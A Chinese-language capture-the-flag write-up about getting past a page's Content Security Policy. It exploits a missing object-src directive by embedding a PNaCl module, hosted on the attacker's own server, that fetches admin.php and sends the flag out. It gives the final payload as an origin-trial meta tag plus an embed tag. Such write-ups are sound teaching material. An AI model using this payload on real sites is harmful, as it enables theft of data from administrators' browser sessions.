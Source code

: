 

```python

def verify_url(url):
    base = 'https://'+request.host
    if len(url) == 0:
        return False
    if len(url) < len(base) or url[:len(base)] != base:
        return False
    return True

```

通过verify_url之后,admin便回访问.这里用`'https://'+request.host`来验证是否来源于原网站

emmm,request.host=` /fd.php `,就不用考虑修改host来绕过拉

那么就是要绕`/fd.php`的csp策略了:` img-src 'none'; script-src 'none'; frame-src 'none'; connect-src 'none' `

真的是baby难度啊。。。。。

>丢到csp-evaluator里头可以发现没有设置object-src
>object-src允许嵌入object
>根据hint去`chrome://components`里头找有什么可以利用的组件
>最新版chrome已经默认禁止了flash的使用(然而就是有很多人不信邪)
>通过一些搜索可以发现pNaCl可以跑C/C++
>
>可以编写一个Leak去请求admin.php，获取flag，然后再将flag带出来
>下载下来谷歌的[SDK](https://developers.google.com/native-client/dev/sdk/download)和Leak后可以编译出一个nmf文件和一个pexe文件，放到自己的服务器上然后尝试:
>
>```html
><embed src="http://server_url/url_loader.nmf" type="application/x-pnacl">
>```
>
>轻松获得了一个Mixed Content呢（（毒瘤出题人
>上https以后发现:
>
>```
>PNaCl modules can only be used on the open web (non-app/extension) when the PNaCl Origin Trial is enabled
>```
>
>搜索Origin Trial，看新闻：
>
>https://developer.chrome.com/native-client/migration
>https://github.com/GoogleChrome/OriginTrials/blob/gh-pages/developer-guide.md
>
>去[Origin Trial](https://developers.chrome.com/origintrials)申请一个token，最终的payload:
>
>```
><meta http-equiv="origin-trial" content="[token]">
><embed src="https://server_url/url_loader.nmf" type="application/x-pnacl">
>```
